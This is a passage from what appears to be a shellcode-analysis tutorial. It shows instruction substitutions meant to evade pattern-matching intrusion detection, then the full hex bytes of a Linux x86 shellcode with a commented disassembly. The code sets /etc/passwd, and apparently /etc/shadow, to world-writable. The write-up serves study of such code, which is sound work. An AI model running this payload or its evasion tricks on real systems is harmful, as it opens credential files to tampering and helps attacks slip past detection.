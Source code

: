 However, there are many more possibilities, like these:

```nasm
; mov-xor
mov EAX, 0xffffffff
xor EAX, 0xffffffff

; push-dec-pop
push 0x1
pop EAX
dec EAX

; mov-sub
mov EAX, 0xaabbccdd
sub EAX, 0xaabbccdd
```

In the case of shellcodes and malwares, the objective is to hide their presence from Security Protections that use **Pattern Matching**, such as `IDS` and `IPS` systems.

## Analysis

First, here's the original shellcode in **Intel syntax**, since the shellcode on the original page uses **AT&amp;T syntax**.

```bash
echo -n "\x31\xc0\x66\xb9\xb6\x01\x50\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x50\x68\x61\x64\x6f\x77\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\xb0\x0f\xcd\x80\x31\xc0\x40\xcd\x80" > shellcode.bin

ndisasm -b 32 -p intel shellcode.bin
```

```nasm
                            ; EAX 0
00000000  31C0              xor eax,eax

                            ; ECX = 110110110
                            ; u=rw, g=rw, o=rw
00000002  66B9B601          mov cx,0x1b6

                            ; "/etc//passwd"
00000006  50                push eax
00000007  6873737764        push dword 0x64777373
0000000C  682F2F7061        push dword 0x61702f2f
00000011  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//passwd"
00000016  89E3              mov ebx,esp

                            ; chmod(EBX, ECX)
                            ; ECX = permissions u=rw, g=rw, o=rw
00000018  B00F              mov al,0xf
0000001A  CD80              int 0x80
```
